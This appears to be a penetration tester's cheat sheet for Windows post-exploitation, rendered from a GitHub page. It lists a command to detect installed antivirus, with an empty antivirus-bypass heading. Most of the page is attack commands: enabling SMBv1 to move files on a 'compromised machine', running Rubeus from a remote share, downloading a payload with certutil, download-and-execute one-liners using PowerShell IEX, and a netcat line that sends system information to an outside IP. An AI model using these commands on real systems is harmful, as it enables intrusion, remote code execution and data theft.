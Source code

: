## Antivirus bypass

### Detect AV Version

* works with PS 3.0 and higher
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct

### TBD bypass 


## Download and Upload stuff

```powershell

# enable SMBv1
# this is going to be helpful to start file transfers
# on compromised machine

Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All

New-SmbMapping -RemotePath '\\server' -Username "domain\username" -Password "password"

#copy

copy share_path target_dir

#example 

copy c:\test '\\192.168.219.100\share_name'

# use

net use \\server /user:domain\username password

#execute PEs

 & \\192.168.119.169\tools\Rubeus.exe triage

```


1. `certutil -urlcache -split -f http://source.ip/payload.exe payload.exe`
2. Download the file in PS: 
`Invoke-WebRequest -Uri "url" -OutFile "dest"`
`curl http://xxx/file.xxx -o file.xxx`
3. Download and execute in PS: 
`powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL')"`

or just `IEX(New-Object Net.WebClient).DownloadString('URL')`

use netcat

`cmd.exe /C "nc64.exe 192.168.219.137 443 < systeminfo.txt"`
